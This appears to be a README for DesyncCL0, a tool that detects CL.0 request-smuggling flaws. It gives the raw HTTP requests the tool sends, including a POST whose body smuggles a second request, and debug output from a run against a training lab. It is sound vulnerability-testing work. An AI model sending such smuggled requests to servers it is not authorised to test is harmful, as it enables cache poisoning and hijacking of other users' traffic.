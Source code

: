 # DesyncCL0
A simple tool to detect vulnerabilities described here https://portswigger.net/research/browser-powered-desync-attacks.

# Description
The tool will always make four requests below. Requests 1, 2 and 3 will be under different connections and Request 4 will be under the same connection as Request 3.

If the response of Request 4 is the same as Request 1 and different from Request 2 we can safe assume the application is vulnerable.

For more details check the source code.

**Request 1**
```
GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: close


```

**Request 2**
```
GET / HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: close


```

**Request 3**
```
POST / HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Content-Length: 34
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

GET /hopefully404 HTTP/1.1
Foo: x
```

**Request 4**
```
GET / HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: close


```

# Example
```
$ ./DesyncCL0.py
    ____                            
   / __ \___  _______  ______  _____
  / / / / _ \/ ___/ / / / __ \/ ___/
 / /_/ /  __(__  ) /_/ / / / / /__  
/_____/\___/____/\__, /_/ /_/\___/  
                /____/              

version 0.0.1
usage: DesyncCL0 [-h] [-s SMUGGLEDREQUESTLINE] [-t TIMEOUT] [-u USER_AGENT] [-d | --debug | --no-debug] URL
DesyncCL0: error: the following arguments are required: URL
```
Below the output testing the this lab https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-browser-cache-poisoning-via-client-side-desync.
```
$ ./DesyncCL0.py https://0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net/../
    ____                            
   / __ \___  _______  ______  _____
  / / / / _ \/ ___/ / / / __ \/ ___/
 / /_/ /  __(__  ) /_/ / / / / /__  
/_____/\___/____/\__, /_/ /_/\___/  
                /____/              

version 0.0.1
Testing URL: https://0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net/../
Testing for CL.0 vulnerability...
WARNING! Back-end server interpreted the body of the POST request as the start of another request.
```
If you want to see the raw requests and response from the tool you can use the -d flag.
```
$ ./DesyncCL0.py https://0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net/../ -d
    ____                            
   / __ \___  _______  ______  _____
  / / / / _ \/ ___/ / / / __ \/ ___/
 / /_/ /  __(__  ) /_/ / / / / /__  
/_____/\___/____/\__, /_/ /_/\___/  
                /____/              

version 0.0.1
Testing URL: https://0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net/../
Testing for CL.0 vulnerability...
>>>>> request404
GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1
Host: 0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: close


>>>>> request404
>>>>> httpresponse404
status404: 404
headers404: [('Content-Type', 'application/json; charset=utf-8'), ('Set-Cookie', 'session=clOekfu0vCx7HfJ4OyPAmlcerx4xAiiD; Secure; HttpOnly; SameSite=None'), ('Connection', 'close'), ('Content-Length', '11')]
body404: b'"Not Found"'
<<<<< httpresponse404
>>>>> requestRoot
GET / HTTP/1.1
Host: 0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: close


>>>>> requestRoot
>>>>> httpresponseRoot
statusRoot: 200
headersRoot: [('Content-Type', 'text/html; charset=utf-8'), ('Set-Cookie', 'session=AXGsV1hGyjczbX0M19hchfmJUWXPlDD2; Secure; HttpOnly; SameSite=None'), ('Connection', 'close'), ('Content-Length', '8470')]
bodyRoot: b'<!DOCTYPE html>\n<html>...</html>\n'
<<<<< httpresponseRoot
>>>>> requestDesync
POST /../ HTTP/1.1
Host: 0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Content-Length: 34
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

GET /hopefully404 HTTP/1.1
Foo: x
>>>>> requestDesync
>>>>> httpresponseDesync
statusDesync: 500
headersDesync: [('Content-Type', 'application/json; charset=utf-8'), ('Set-Cookie', 'session=WZMIupbYcMGXfoFagoNmZLupq6m2CIMT; Secure; HttpOnly; SameSite=None'), ('Keep-Alive', 'timeout=10'), ('Content-Length', '23')]
bodyDesync: b'"Internal Server Error"'
<<<<< httpresponseDesync
>>>>> requestRootSmuggled
GET / HTTP/1.1
Host: 0a7f005703d1bcd0c05a8252006200c5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: close


<<<<< requestRootSmuggled
>>>>> httpresponseRootSmuggled
statusRootSmuggled: 404
headersRootSmuggled: [('Content-Type', 'application/json; charset=utf-8'), ('Set-Cookie', 'session=Pb6ZiMCGpqnBZC2JSOIDkhBwG0VxjRU1; Secure; HttpOnly; SameSite=None'), ('Connection', 'close'), ('Content-Length', '11')]
bodyRootSmuggled: b'"Not Found"'
<<<<< httpresponseRootSmuggled
WARNING! Back-end server interpreted the body of the POST request as the start of another request.

```
